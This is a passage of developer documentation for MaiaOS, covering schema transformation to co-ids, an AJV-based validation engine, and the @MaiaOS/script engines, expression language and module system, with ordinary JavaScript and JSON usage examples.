// Returns: 'co_z456...' or null if not found
```

### `transformQueryObjectSchema(queryObj, coIdMap)`

Transforms the `schema` field in a query object.

**Example:**
```javascript
const queryObj = { schema: '@schema/todos', filter: {} };
transformQueryObjectSchema(queryObj, coIdMap);
// queryObj.schema is now 'co_z123...'
```

### `transformToolPayload(payload, coIdMap, transformRecursive)`

Transforms tool payload, handling both schema and target references.

**Example:**
```javascript
const payload = {
  schema: '@schema/todos',
  target: '@actor/vibe'
};
transformToolPayload(payload, coIdMap, transformQueryObjects);
// Both schema and target are transformed
```

### `transformActionPayload(action, coIdMap, transformRecursive)`

Transforms action payload, handling target references.

**Example:**
```javascript
const action = {
  tool: '@core/publishMessage',
  payload: {
    target: '@actor/vibe'
  }
};
transformActionPayload(action, coIdMap, transformQueryObjects);
// payload.target is transformed
```

### `transformArrayItems(arr, coIdMap, transformRecursive)`

Transforms array items, handling both action payloads and direct actor references.

**Example:**
```javascript
const arr = [
  { tool: '@core/publishMessage', payload: { target: '@actor/vibe' } },
  '@actor/user'
];
transformArrayItems(arr, coIdMap, transformQueryObjects);
// Both items are transformed
```

---

## Validation During Transformation

### `validateNoNestedCoTypes(schema, path)`

Validates that schemas don't have nested CoJSON types (must use `$co` keyword instead).

**Why:** CoJSON types (comap, colist, costream) can only be at the schema root, not nested in properties.

**Example:**
```javascript
// ❌ Wrong - nested cotype
{
  properties: {
    items: {
      cotype: 'colist'  // Can't nest CoJSON types!
    }
  }
}

// ✅ Correct - use $co instead
{
  properties: {
    items: {
      $co: '@schema/items'  // Reference to colist schema
    }
  }
}
```

**Usage:**
```javascript
const errors = validateNoNestedCoTypes(schema);
if (errors.length > 0) {
  throw new Error(`Nested CoJSON types found: ${errors.join(', ')}`);
}
```

---

## Common Patterns

### Transforming Before Seeding

```javascript
import { transformSchemaForSeeding, transformInstanceForSeeding } from '@MaiaOS/schemata/schema-transformer';

// Build co-id map
const coIdMap = new Map();
for (const [name, schema] of Object.entries(schemas)) {
  const coId = generateCoId(schema);
  coIdMap.set(`@schema/${name}`, coId);
}

// Transform schemas
const transformedSchemas = {};
for (const [name, schema] of Object.entries(schemas)) {
  transformedSchemas[name] = transformSchemaForSeeding(schema, coIdMap);
}

// Transform instances
const transformedInstances = {};
for (const [name, instance] of Object.entries(instances)) {
  transformedInstances[name] = transformInstanceForSeeding(instance, coIdMap);
}
```

### Handling Missing References

```javascript
const coId = coIdMap.get('@schema/todos');
if (!coId) {
  console.warn('No co-id found for @schema/todos');
  // Option 1: Skip transformation (leave as-is)
  // Option 2: Generate co-id on-the-fly
  // Option 3: Throw error (fail fast)
}
```

---

## Troubleshooting

### Problem: "No co-id found for query object schema"

**Solution:** Register data collection schemas before transforming instances:
```javascript
// Phase 1: Register data collection schemas
coIdRegistry.register('@schema/todos', todosCoId);

// Phase 2: Transform instances (now todosCoId is available)
transformInstanceForSeeding(instance, coIdMap);
```

### Problem: Query object not transformed

**Solution:** Make sure you're calling `transformQueryObjects` recursively:
```javascript
// This only transforms top-level
transformQueryObjects(instance, coIdMap);

// For nested structures, transformation is recursive automatically
```

### Problem: "Nested CoJSON types found"

**Solution:** Use `$co` keyword instead of nesting `cotype`:
```json
// ❌ Wrong
{
  "properties": {
    "items": { "cotype": "colist" }
  }
}

// ✅ Correct
{
  "properties": {
    "items": { "$co": "@schema/items" }
  }
}
```

---

## Source Files

- Main transformer: `libs/maia-schemata/src/schema-transformer.js`
- Helper functions: `libs/maia-schemata/src/schema-transformer.js` (transformSchemaReference, transformTargetReference, etc.)

---

# MAIA SCHEMATA/VALIDATION

*Source: developers/03_maia-schemata/validation.md*

# Validation Engine

## Overview

The `ValidationEngine` is the heart of MaiaOS's schema validation system. Think of it as a smart quality inspector that checks if your data matches the blueprint (schema) you defined.

**What it does:**
- Loads and compiles JSON schemas using AJV
- Validates data against schemas with detailed error messages
- Resolves schema dependencies ($schema, $co references)
- Supports both human-readable IDs and co-ids
- Handles CoJSON types via custom plugin

---

## The Simple Version

Imagine you're building a LEGO set. The instruction manual (schema) says "use 4 red blocks here." The ValidationEngine is like a friend checking your work - it looks at what you built and says "✅ You used 4 red blocks, perfect!" or "❌ You used 3 red blocks and 1 blue block, that's wrong!"

**Example:**
```javascript
// Schema says: "actor must have a 'name' field that's a string"
const schema = {
  type: 'object',
  properties: {
    name: { type: 'string' }
  },
  required: ['name']
};

// You provide this data:
const data = { name: 'my-actor' };

// ValidationEngine checks:
const result = await engine.validate('actor', data);
// ✅ result.valid = true
```

---

## Architecture

### Core Components

```
ValidationEngine
├── AJV Instance (compiles schemas)
├── Schema Cache (Map<type, validator>)
├── Schema Resolver (resolves co-id references)
└── Meta-Schema Registry (validates schemas themselves)
```

### Initialization Flow

```
1. Create ValidationEngine
   └─> Sets up empty cache and resolver

2. Initialize AJV
   └─> Loads AJV library (local import or CDN fallback)
   └─> Configures AJV options (allErrors, verbose, etc.)
   └─> Registers base meta-schema (JSON Schema Draft 2020-12)
   └─> Registers CoJSON meta-schema (@schema/meta)
   └─> Registers CoJSON plugin (cotype, $co keywords)

3. Load Schemas
   └─> Get schema from registry
   └─> Resolve dependencies ($schema, $co references)
   └─> Compile with AJV
   └─> Cache compiled validator
```

---

## Key Methods

### `initialize()`

Sets up the AJV instance and registers meta-schemas.

**What happens:**
1. Loads AJV library (tries local import, falls back to CDN)
2. Creates AJV instance with validation options
3. Registers base meta-schema (JSON Schema Draft 2020-12)
4. Registers CoJSON meta-schema (@schema/meta)
5. Registers CoJSON plugin (adds `cotype` and `$co` keywords)

**Example:**
```javascript
const engine = new ValidationEngine();
await engine.initialize();
// Now ready to validate!
```

### `loadSchema(type, schema)`

Loads and compiles a schema for a given type.

**What happens:**
1. Checks if schema already loaded (returns cached validator)
2. Resolves all dependencies ($schema, $co references)
3. Registers dependencies in AJV
4. Compiles schema with AJV
5. Caches compiled validator

**Example:**
```javascript
const actorSchema = getSchema('actor');
await engine.loadSchema('actor', actorSchema);
// Schema is now compiled and cached
```

### `validate(type, data)`

Validates data against a loaded schema.

**What happens:**
1. Gets compiled validator from cache
2. Runs data through validator
3. Formats errors (if any)
4. Returns validation result

**Example:**
```javascript
const result = await engine.validate('actor', actorData);
if (!result.valid) {
  console.error('Errors:', result.errors);
  // [
  //   {
  //     instancePath: '/name',
  //     message: 'must be string',
  //     ...
  //   }
  // ]
}
```

### `validateSchemaAgainstMeta(schema)`

Validates a schema itself against its meta-schema.

**What happens:**
1. Determines which meta-schema to use (from `$schema` field)
2. Resolves meta-schema if it's a co-id reference
3. Gets or registers meta-schema validator
4. Validates schema against meta-schema
5. Returns validation result

**Example:**
```javascript
const schema = {
  $schema: '@schema/meta',
  cotype: 'comap',
  properties: { ... }
};

const result = await engine.validateSchemaAgainstMeta(schema);
// Checks if schema follows CoJSON meta-schema rules
```

---

## Dependency Resolution

### How It Works

When loading a schema, the engine must resolve all its dependencies first:

```
Schema A references Schema B via $co
  └─> Load Schema B
      └─> Schema B references Schema C via $co
          └─> Load Schema C
              └─> (no more dependencies)
          └─> Register Schema C in AJV
      └─> Register Schema B in AJV
  └─> Register Schema A in AJV
  └─> Compile Schema A (now all references resolve)
```

### Resolving $schema References

**Human-readable:**
```json
{
  "$schema": "@schema/meta"
}
```
→ Uses `@schema/meta` validator directly

**Co-id reference:**
```json
{
  "$schema": "co_z123..."
}
```
→ Resolves co-id to get meta-schema
→ Determines type (CoJSON vs standard)
→ Uses appropriate validator

### Resolving $co References

**Human-readable:**
```json
{
  "properties": {
    "actorRef": { "$co": "@schema/actor" }
  }
}
```
→ Resolves `@schema/actor` to get schema
→ Registers schema in AJV
→ Compiles property validator

**Co-id reference:**
```json
{
  "properties": {
    "actorRef": { "$co": "co_z123..." }
  }
}
```
→ Resolves co-id to get schema
→ Registers schema in AJV
→ Compiles property validator

---

## Schema Resolver

The schema resolver is a function that loads schemas from IndexedDB.

**Purpose:**
- Resolves co-id references to actual schema objects
- Handles reference objects (from IndexedDB mapping)
- Supports both human-readable IDs and co-ids

**Example:**
```javascript
const resolver = async (id) => {
  // id could be '@schema/actor' or 'co_z123...'
  const schema = await dbEngine.backend.getSchema(id);
  return schema;
};

engine.setSchemaResolver(resolver);
```

**How it's used:**
1. During `loadSchema()`, if schema has `$schema: "co_z123..."`, resolver loads the meta-schema
2. During dependency resolution, if schema has `$co: "co_z123..."`, resolver loads the referenced schema
3. Resolver handles both human-readable IDs and co-ids automatically

---

## Error Formatting

Validation errors are formatted for readability:

**AJV Error:**
```javascript
{
  instancePath: '/properties/name',
  schemaPath: '#/properties/name/type',
  keyword: 'type',
  message: 'must be string',
  params: { type: 'string' }
}
```

**Formatted Error:**
```javascript
{
  instancePath: '/properties/name',
  schemaPath: '#/properties/name/type',
  keyword: 'type',
  message: 'must be string',
  params: { type: 'string' }
}
// Same structure, but consistent formatting
```

**Error Helper:**
```javascript
import { formatValidationErrors } from './validation.helper.js';

const errors = validate.errors || [];
const formatted = formatValidationErrors(errors);
// All errors have consistent structure
```

---

## Meta-Schema Handling

### Base Meta-Schema

**Purpose:** Validates standard JSON Schema schemas

**ID:** `https://json-schema.org/draft/2020-12/schema`

**Location:** `os/base-meta-schema.json`

**Usage:**
- Validates schemas that don't use CoJSON types
- Used for validating the base meta-schema itself (self-validation)

### CoJSON Meta-Schema

**Purpose:** Validates MaiaOS schemas with CoJSON types

**ID:** `@schema/meta`

**Location:** `os/meta.schema.json`

**Features:**
- Extends base meta-schema
- Adds `cotype` keyword (comap, colist, costream)
- Adds `$co` keyword (co-id references)
- Requires `title` field for all schemas

**Usage:**
```json
{
  "$schema": "@schema/meta",
  "title": "Actor Schema",
  "cotype": "comap",
  "properties": {
    "name": { "type": "string" },
    "viewRef": { "$co": "@schema/view" }
  }
}
```

---

## Self-Validation

Meta-schemas can validate themselves, but this creates a circular dependency:

```
Meta-schema validates schemas
  └─> Meta-schema is itself a schema
      └─> Meta-schema validates itself
          └─> (circular!)
```

**Solution:** Temporarily disable schema validation during meta-schema registration:

```javascript
withSchemaValidationDisabled(ajv, () => {
  ajv.addMetaSchema(metaSchema, metaSchema.$id);
});
```

This allows meta-schemas to be registered without validating themselves.

---

## Performance Considerations

### Caching

**Schema Compilation:**
- Schemas are compiled once and cached
- Subsequent validations use cached validators
- Cache key: schema type (e.g., 'actor', 'context')

**Dependency Resolution:**
- Dependencies are resolved once per schema load
- Resolved schemas are registered in AJV (AJV caches internally)
- No redundant resolution

### Lazy Loading

**Schemas:**
- Schemas are loaded on-demand (when `loadSchema()` is called)
- Not all schemas are loaded at startup
- Reduces initial load time

**Meta-Schemas:**
- Base meta-schema loaded during `initialize()`
- CoJSON meta-schema loaded during `initialize()`
- Other meta-schemas loaded on-demand

---

## Common Patterns

### Validating a Single File

```javascript
import { ValidationEngine, getSchema } from '@MaiaOS/schemata';

const engine = new ValidationEngine();
await engine.initialize();

const schema = getSchema('actor');
await engine.loadSchema('actor', schema);

const result = await engine.validate('actor', actorData);
if (!result.valid) {
  throw new Error(`Validation failed: ${result.errors[0].message}`);
}
```

### Validating Multiple Files

```javascript
const types = ['actor', 'context', 'state', 'view'];

// Load all schemas
for (const type of types) {
  const schema = getSchema(type);
  await engine.loadSchema(type, schema);
}

// Validate all files
for (const [type, data] of files) {
  const result = await engine.validate(type, data);
  if (!result.valid) {
    console.error(`${type} validation failed:`, result.errors);
  }
}
```

### Using Schema Resolver

```javascript
const engine = new ValidationEngine();
engine.setSchemaResolver(async (id) => {
  // Load from IndexedDB
  return await dbEngine.backend.getSchema(id);
});

await engine.initialize();

// Now schemas with co-id references will resolve automatically
const schema = {
  $schema: 'co_z123...',  // Will be resolved!
  properties: {
    ref: { $co: 'co_z456...' }  // Will be resolved!
  }
};

await engine.loadSchema('my-type', schema);
```

---

## Troubleshooting

### Problem: "Schema 'actor' not loaded"

**Solution:** Call `loadSchema()` before `validate()`:
```javascript
await engine.loadSchema('actor', actorSchema);
const result = await engine.validate('actor', data);
```

### Problem: "Unknown meta schema 'co_z123...'"

**Solution:** Set schema resolver to resolve co-id references:
```javascript
engine.setSchemaResolver(async (id) => {
  return await dbEngine.backend.getSchema(id);
});
```

### Problem: "Schema resolver returned null for $co reference"

**Solution:** Make sure referenced schema is registered before loading:
```javascript
// Register dependency first
await engine.loadSchema('view', viewSchema);

// Then load schema that references it
await engine.loadSchema('actor', actorSchema);
```

---

## Source Files

- Implementation: `libs/maia-schemata/src/validation.engine.js`
- Helper functions: `libs/maia-schemata/src/validation.helper.js`
- Error formatting: `libs/maia-schemata/src/validation.helper.js` (formatValidationErrors)
- Schema validation toggle: `libs/maia-schemata/src/validation.helper.js` (withSchemaValidationDisabled)

---

# MAIA SCRIPT/API REFERENCE

*Source: developers/04_maia-script/api-reference.md*

# API Reference

Complete API reference for `@MaiaOS/script` package.

---

## Exported Engines

All engines are exported from `@MaiaOS/script`:

```javascript
import {
  ActorEngine,
  ViewEngine,
  StyleEngine,
  StateEngine,
  ToolEngine,
  MaiaScriptEvaluator,
  ModuleRegistry,
  DBEngine,
  IndexedDBBackend,
  SubscriptionEngine,
  MessageQueue
} from '@MaiaOS/script';
```

---

## Subpath Exports

Modules and engines are available via subpath exports:

```javascript
// Modules
import { register } from '@MaiaOS/script/modules/db.module.js';

// Engines (if needed)
import { ActorEngine } from '@MaiaOS/script/engines/actor-engine/actor.engine.js';
```

---

## Using Engines Directly

For advanced use cases, you can use engines independently:

### Custom Evaluator

```javascript
import { MaiaScriptEvaluator } from '@MaiaOS/script';

const evaluator = new MaiaScriptEvaluator(null, {
  maxDepth: 100,
  validateExpressions: true
});

const result = await evaluator.evaluate(
  { $if: { condition: true, then: 'yes', else: 'no' } },
  { context: {}, item: {} }
);
```

### Custom View Renderer

```javascript
import { ViewEngine, MaiaScriptEvaluator, ModuleRegistry } from '@MaiaOS/script';

const evaluator = new MaiaScriptEvaluator();
const registry = new ModuleRegistry();
const viewEngine = new ViewEngine(evaluator, null, registry);

// Render a view without full actor system
await viewEngine.render(viewDef, { context: {} }, shadowRoot, [], 'custom');
```

### Custom Database Operations

```javascript
import { DBEngine, IndexedDBBackend } from '@MaiaOS/script';

const backend = new IndexedDBBackend();
await backend.init();
const dbEngine = new DBEngine(backend);

// Use read() API (always returns reactive store)
const store = await dbEngine.execute({
  op: 'read',
  schema: 'co_zTodos123'  // Schema co-id (co_z...)
});

// Store has current value
console.log('Current data:', store.value);

// Subscribe to updates
const unsubscribe = store.subscribe((data) => {
  console.log('Data updated:', data);
});
```

---

## Package Exports

The package exports are defined in `libs/maia-script/package.json`:

```json
{
  "exports": {
    ".": "./src/index.js",
    "./modules/*": "./src/modules/*",
    "./engines/*": "./src/engines/*"
  }
}
```

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [engines.md](./engines.md) - Detailed engine descriptions
- [modules.md](./modules.md) - Module system
- [expressions.md](./expressions.md) - Expression language
- [patterns.md](./patterns.md) - Common patterns

---

# MAIA SCRIPT/ENGINES

*Source: developers/04_maia-script/engines.md*

# Engines

The `@MaiaOS/script` package provides 10 core engines that work together to execute MaiaScript and manage actor lifecycles.

---

## MaiaScriptEvaluator

**Purpose:** Evaluates MaiaScript expressions safely.

**What it does:**
- Evaluates JSON-based expressions (`$if`, `$eq`, `$context`, etc.)
- Resolves data paths (`$context.title`, `$item.id`)
- Validates expressions against schema
- Enforces depth limits to prevent DoS attacks

**Key Methods:**
- `evaluate(expression, data, depth)` - Evaluate an expression
- `evaluateShortcut(expression, data)` - Handle `$key` shortcuts

**Example:**
```javascript
import { MaiaScriptEvaluator } from '@MaiaOS/script';

const evaluator = new MaiaScriptEvaluator();

// Evaluate a simple expression
const result = await evaluator.evaluate(
  { $if: { condition: { $eq: ['$context.status', 'active'] }, then: 'green', else: 'gray' } },
  { context: { status: 'active' } }
);
// Returns: 'green'
```

**Security:**
- Validates expressions before evaluation
- Enforces maximum recursion depth (default: 50)
- Sandboxed - only whitelisted operations allowed

**Source:** `libs/maia-script/src/engines/MaiaScriptEvaluator.js`

---

## ActorEngine

**Purpose:** Orchestrates actor lifecycle and coordinates all engines.

**What it does:**
- Creates and manages actors
- Handles message passing (inbox/subscriptions)
- Coordinates ViewEngine, StyleEngine, StateEngine
- Manages actor context and state
- Processes messages and triggers state transitions
- **Sequential processing**: Ensures events process one at a time (deterministic state machines)

**Key Methods:**
- `createActor(actorConfig, container)` - Create an actor
- `loadActor(actorId)` - Load actor config from database
- `sendMessage(actorId, message)` - Send message to actor
- `processMessages(actorId)` - Process pending messages sequentially (guarded against concurrent execution)
- `getActor(actorId)` - Get actor by ID
- `rerenderActor(actorId)` - Re-render actor view

**Sequential Processing:**
- `processMessages()` uses `_isProcessing` guard to prevent concurrent execution
- Events process one at a time, ensuring deterministic state transitions
- Unhandled events are marked as processed (not rejected)
- Sequential processing handled generically in engine - no need to handle in state configs

**Dependencies:**
- `StyleEngine` - For style compilation
- `ViewEngine` - For view rendering
- `ModuleRegistry` - For module access
- `ToolEngine` - For tool execution
- `StateEngine` - For state machine interpretation
- `SubscriptionEngine` - For reactive subscriptions

**Example:**
```javascript
import { ActorEngine } from '@MaiaOS/script';

// ActorEngine is typically created by kernel during boot
// But you can create it manually for advanced use cases:
const actorEngine = new ActorEngine(
  styleEngine,
  viewEngine,
  moduleRegistry,
  toolEngine,
  stateEngine
);

// Create an actor
const actor = await actorEngine.createActor(
  actorConfig,
  document.getElementById('container')
);
```

**Source:** `libs/maia-script/src/engines/actor-engine/actor.engine.js`

---

## ViewEngine

**Purpose:** Renders `.maia` view definitions to Shadow DOM.

**What it does:**
- Converts view definitions to DOM elements
- Handles `$each` loops for iteration
- Processes `$slot` for actor composition
- Manages event handlers (`$on`)
- Uses Shadow DOM for style isolation
- Sanitizes HTML to prevent XSS

**Key Methods:**
- `loadView(coId)` - Load view definition from database
- `render(viewDef, context, shadowRoot, styleSheets, actorId)` - Render view
- `renderNode(nodeDef, data, actorId)` - Render a single node

**Dependencies:**
- `MaiaScriptEvaluator` - For expression evaluation
- `ActorEngine` - For action handling
- `ModuleRegistry` - For module access

**Example:**
```javascript
import { ViewEngine } from '@MaiaOS/script';

const viewEngine = new ViewEngine(evaluator, actorEngine, moduleRegistry);

// Render a view
await viewEngine.render(
  viewDef,
  { context: { title: 'Hello' } },
  shadowRoot,
  styleSheets,
  'actor-123'
);
```

**Security:**
- Uses `textContent` for text (auto-escapes HTML)
- Uses `createElement`/`appendChild` for DOM (safe)
- Sanitizes attribute values
- Shadow DOM isolation prevents style leakage

**Source:** `libs/maia-script/src/engines/view-engine/view.engine.js`

---

## StyleEngine

**Purpose:** Compiles `.maia` style definitions to CSS.

**What it does:**
- Compiles style definitions to Constructable Stylesheets
- Merges brand styles with actor overrides
- Interpolates token references (`{token.color}`)
- Caches compiled stylesheets
- Supports CSS-in-JS approach

**Key Methods:**
- `loadStyle(coId)` - Load style definition from database
- `compile(brandStyleId, actorStyleId)` - Compile styles
- `clearCache()` - Clear style cache (dev only)

**Dependencies:**
- `DBEngine` - For loading style definitions

**Example:**
```javascript
import { StyleEngine } from '@MaiaOS/script';

const styleEngine = new StyleEngine();

// Compile styles
const styleSheets = await styleEngine.compile(
  'co_z...brand',  // Brand style co-id
  'co_z...actor'   // Actor style co-id (optional)
);
```

**Source:** `libs/maia-script/src/engines/style-engine/style.engine.js`

---

## StateEngine

**Purpose:** Interprets state machine definitions (XState-like).

**What it does:**
- Loads state machine definitions from `.state.maia` files
- Creates state machine instances
- Handles state transitions with guards
- Executes entry/exit actions
- Processes events (`send('EVENT_NAME')`)
- Supports side effects (invoke, after delays)
- **Deterministic**: Only one state at a time, sequential transitions

**Key Methods:**
- `loadStateDef(stateRef)` - Load state definition
- `createMachine(stateDef, actor)` - Create state machine instance
- `send(machineId, event, payload)` - Send event to state machine (called only from ActorEngine.processMessages())

**Dependencies:**
- `ToolEngine` - For executing actions
- `MaiaScriptEvaluator` - For evaluating guards
- `ActorEngine` - For unified event flow and sequential processing

**Deterministic State Machines:**
- State machines are deterministic - only ONE state at a time
- Events process sequentially (guarded by ActorEngine)
- No parallel states possible
- Unhandled events are processed and removed (not rejected)
- Sequential processing handled generically - state configs don't need "what if already in state X" logic

**Example:**
```javascript
import { StateEngine } from '@MaiaOS/script';

const stateEngine = new StateEngine(toolEngine, evaluator);

// Load and create state machine
const stateDef = await stateEngine.loadStateDef('co_z...');
const machine = await stateEngine.createMachine(stateDef, actor);

// Send event
stateEngine.sendEvent('actor-123', { type: 'CLICK_BUTTON' });
```

**Source:** `libs/maia-script/src/engines/state-engine/state.engine.js`

---

## ToolEngine

**Purpose:** Executes tools with parameter validation.

**What it does:**
- Registers tools from modules
- Validates tool parameters against schemas
- Executes tool functions
- Supports namespaced tools (`@core/noop`, `@db/query`)

**Key Methods:**
- `registerTool(namespacePath, toolId, options)` - Register a tool
- `executeTool(toolId, payload, actor)` - Execute a tool
- `getTool(toolId)` - Get tool definition

**Dependencies:**
- `ModuleRegistry` - For module access

**Example:**
```javascript
import { ToolEngine } from '@MaiaOS/script';

const toolEngine = new ToolEngine(moduleRegistry);

// Execute a tool
const result = await toolEngine.executeTool(
  '@db/query',
  { schema: '@schema/todos', filter: { completed: false } },
  actor
);
```

**Source:** `libs/maia-script/src/engines/tool-engine/tool.engine.js`

---

## DBEngine

**Purpose:** Unified database operation router (extends shared operations layer).

**What it does:**
- Extends `DBEngine` from `@MaiaOS/operations` with MaiaScript evaluator support
- Routes operations to modular handlers
- Supports operations: `read`, `create`, `update`, `delete`, `seed`
- Works with swappable backends (IndexedDB, CoJSON CRDT)
- Validates operations against schemas
- **Unified `read()` API** - Always returns reactive stores
- **MaiaScript expression evaluation** - Supports expressions in update operations

**Key Methods:**
- `execute(payload)` - Execute a database operation
- `getSchemaCoId(schemaName)` - Resolve human-readable schema name to co-id
- `resolveCoId(humanReadableId)` - Resolve human-readable ID to co-id

**Operations:**
- `read` - **Primary API** - Load configs/schemas/data (always returns reactive store)
- `create` - Create new records
- `update` - Update existing records (unified for data collections and configs, supports MaiaScript expressions)
- `delete` - Delete records
- `seed` - Flush + seed database (dev only, IndexedDB backend)

**Example:**
```javascript
import { DBEngine, IndexedDBBackend } from '@MaiaOS/script';

const backend = new IndexedDBBackend();
await backend.init();
const dbEngine = new DBEngine(backend);

// Read (unified API - always returns reactive store)
const store = await dbEngine.execute({
  op: 'read',
  schema: 'co_zTodos123',  // Schema co-id (co_z...)
  filter: { completed: false }
});

// Store has current value
console.log('Current todos:', store.value);

// Subscribe to updates
const unsubscribe = store.subscribe((data) => {
  console.log('Todos updated:', data);
});

// Create
const newTodo = await dbEngine.execute({
  op: 'create',
  schema: 'co_zTodos123',
  data: { text: 'Buy milk', completed: false }
});

// Update with MaiaScript expression (maia-script specific)
const updated = await dbEngine.execute({
  op: 'update',
  schema: 'co_zTodos123',
  id: 'co_zTodo456',
  data: {
    done: { $not: '$existing.done' }  // Toggle using MaiaScript
  }
});
```

**Important:** 
- All schemas must be co-ids (`co_z...`). Human-readable IDs (`@schema/...`) are transformed to co-ids during seeding.
- The `DBEngine` in `maia-script` extends the shared `DBEngine` from `@MaiaOS/operations` to add MaiaScript evaluator support.
- Operations are implemented in `@MaiaOS/operations` and shared across all backends.

**Dependencies:**
- `@MaiaOS/operations` - Shared operations layer (DBEngine, operations, ReactiveStore)
- `MaiaScriptEvaluator` - For expression evaluation in updates

**Source:** 
- `libs/maia-script/src/engines/db-engine/db.engine.js` - maia-script wrapper
- `libs/maia-operations/src/engine.js` - Shared DBEngine implementation
- `libs/maia-operations/src/operations/` - Shared operation implementations

---

## SubscriptionEngine

**Purpose:** Context-driven reactive subscription manager with end-to-end reactivity.

**What it does:**
- Watches actor context for query objects (data subscriptions)
- Auto-subscribes to reactive data
- **Subscribes to config CRDTs** (view, style, state, interface, context, brand) for runtime-editable configs
- Auto-resolves `@` references
- Batches re-renders for performance
- Updates actor context automatically (infrastructure exception)
- Handles config updates reactively (view/style/state changes trigger re-renders)

**Key Methods:**
- `initialize(actor)` - Initialize subscriptions for an actor (data + config)
- `setEngines(engines)` - Set view/style/state engines for config subscriptions
- `cleanup(actor)` - Clean up all subscriptions when actor is destroyed

**Subscription Types:**
1. **Data Subscriptions** - Query objects in context (`{schema: "co_z...", filter: {...}}`)
2. **Config Subscriptions** - Config CRDTs (view, style, state, interface, context, brand)
3. **Message Subscriptions** - Subscriptions/inbox colists (handled in ActorEngine)

**Dependencies:**
- `DBEngine` - For read operations (unified `read()` API)
- `ActorEngine` - For triggering re-renders and loading configs
- `ViewEngine` - For view subscriptions
- `StyleEngine` - For style/brand subscriptions
- `StateEngine` - For state machine subscriptions

**Important:** This engine directly updates actor context for reactive query objects. This is the ONLY exception to the rule that state machines are the single source of truth for context changes.

**Config Reactivity:**
When config CRDTs change (view, style, state, etc.), SubscriptionEngine automatically:
- Updates caches
- Updates actor properties (`actor.viewDef`, `actor.machine`, etc.)
- Triggers re-renders
- Reloads stylesheets (for style changes)
- Recreates state machines (for state changes)

**Source:** `libs/maia-script/src/engines/subscription-engine/subscription.engine.js`

**See also:** [subscriptions.md](./subscriptions.md) - Detailed subscription architecture documentation

---

## ModuleRegistry

**Purpose:** Central plugin system for MaiaScript extensions.

**What it does:**
- Registers modules dynamically
- Provides module discovery
- Stores module configuration
- Manages module lifecycle

**Key Methods:**
- `registerModule(name, module, config)` - Register a module
- `getModule(name)` - Get module by name
- `loadModule(name)` - Dynamically load a module
- `listModules()` - List all registered modules

**Example:**
```javascript
import { ModuleRegistry } from '@MaiaOS/script';

const registry = new ModuleRegistry();

// Register a module
registry.registerModule('myModule', MyModuleClass, {
  version: '1.0.0',
  description: 'My custom module'
});

// Load a module dynamically
await registry.loadModule('db');
```

**Source:** `libs/maia-script/src/engines/ModuleRegistry.js`

---

## MessageQueue

**Purpose:** Resilient message queue with persistence and retry.

**What it does:**
- Queues messages for actors
- Persists messages to localStorage (survives page refresh)
- Retries failed messages with exponential backoff
- Maintains dead letter queue for failed messages
- Guarantees message ordering

**Key Methods:**
- `enqueue(message)` - Add message to queue
- `getStats()` - Get queue statistics
- `clear()` - Clear queue (testing/cleanup)

**Features:**
- Persistent storage (localStorage)
- Retry mechanism (max 5 retries)
- Dead letter queue
- At-least-once delivery semantics

**Source:** `libs/maia-script/src/engines/message-queue/message.queue.js`

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [modules.md](./modules.md) - Module system details
- [expressions.md](./expressions.md) - MaiaScript expressions
- [api-reference.md](./api-reference.md) - Complete API reference

---

# MAIA SCRIPT/EXPRESSIONS

*Source: developers/04_maia-script/expressions.md*

# MaiaScript Expressions

MaiaScript expressions are JSON-based and evaluated safely by `MaiaScriptEvaluator`.

---

## Expression Syntax

**Basic Syntax:**
```json
{
  "$operation": [arguments...]
}
```

---

## Supported Operations

### Data Access

- `$context` - Access context data: `{ "$context": "title" }`
- `$item` - Access item data (in loops): `{ "$item": "id" }`
- `$` - Shortcut: `"$title"` = `{ "$context": "title" }`
- `$$` - Shortcut: `"$$id"` = `{ "$item": "id" }`

### Comparison

- `$eq` - Equal: `{ "$eq": ["$context.status", "active"] }`
- `$neq` - Not equal: `{ "$neq": ["$context.status", "inactive"] }`
- `$gt` - Greater than: `{ "$gt": ["$context.count", 10] }`
- `$gte` - Greater than or equal
- `$lt` - Less than
- `$lte` - Less than or equal

### Logical

- `$and` - Logical AND: `{ "$and": [{ "$eq": ["$context.status", "active"] }, { "$gt": ["$context.count", 0] }] }`
- `$or` - Logical OR
- `$not` - Logical NOT

### Control Flow

- `$if` - Conditional: `{ "$if": { "condition": { "$eq": ["$context.status", "active"] }, "then": "green", "else": "gray" } }`
- `$switch` - Switch statement

### String

- `$concat` - Concatenate strings
- `$trim` - Trim whitespace
- `$toLowerCase` - Convert to lowercase
- `$toUpperCase` - Convert to uppercase

### Date

- `$formatDate` - Format date

### Array

- `$length` - Get array length
- `$includes` - Check if array includes value
- `$map` - Map over array
- `$filter` - Filter array

### Math

- `$add` - Add numbers
- `$subtract` - Subtract numbers
- `$multiply` - Multiply numbers
- `$divide` - Divide numbers

---

## Expression Validation

Expressions are validated against `maia-script-expression` schema before evaluation:

```javascript
// Validation happens automatically
const evaluator = new MaiaScriptEvaluator();
await evaluator.evaluate(expression, data);
// Throws if expression is invalid
```

---

## Security

- **Sandboxed** - Only whitelisted operations allowed
- **Depth limits** - Maximum recursion depth (default: 50) prevents DoS
- **Schema validation** - Expressions validated before evaluation
- **No code execution** - Pure JSON, no JavaScript execution

---

## Examples

### Basic Conditional

```json
{
  "$if": {
    "condition": { "$eq": ["$context.status", "active"] },
    "then": "green",
    "else": "gray"
  }
}
```

### Complex Logic

```json
{
  "$if": {
    "condition": {
      "$and": [
        { "$eq": ["$context.status", "active"] },
        { "$gt": ["$context.count", 0] }
      ]
    },
    "then": "visible",
    "else": "hidden"
  }
}
```

### Array Operations

```json
{
  "$map": {
    "array": "$context.items",
    "as": "item",
    "do": { "$item": "name" }
  }
}
```

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [engines.md](./engines.md) - MaiaScriptEvaluator details
- [api-reference.md](./api-reference.md) - API reference
- [patterns.md](./patterns.md) - Common patterns

---

# MAIA SCRIPT/MODULES

*Source: developers/04_maia-script/modules.md*

# Module System

Modules are plugins that extend MaiaOS functionality. They register tools and provide configuration.

---

## What Are Modules?

Modules are plugins that extend MaiaOS functionality. They register tools and provide configuration.

**Module Structure:**
```javascript
export class MyModule {
  static async register(registry) {
    const toolEngine = getToolEngine(registry, 'MyModule');
    
    // Register tools
    await registerToolsFromRegistry(registry, toolEngine, 'mymodule', ['tool1', 'tool2'], '@mymodule');
    
    // Register module config
    registerModuleConfig(registry, 'mymodule', MyModule, {
      version: '1.0.0',
      description: 'My module description',
      namespace: '@mymodule',
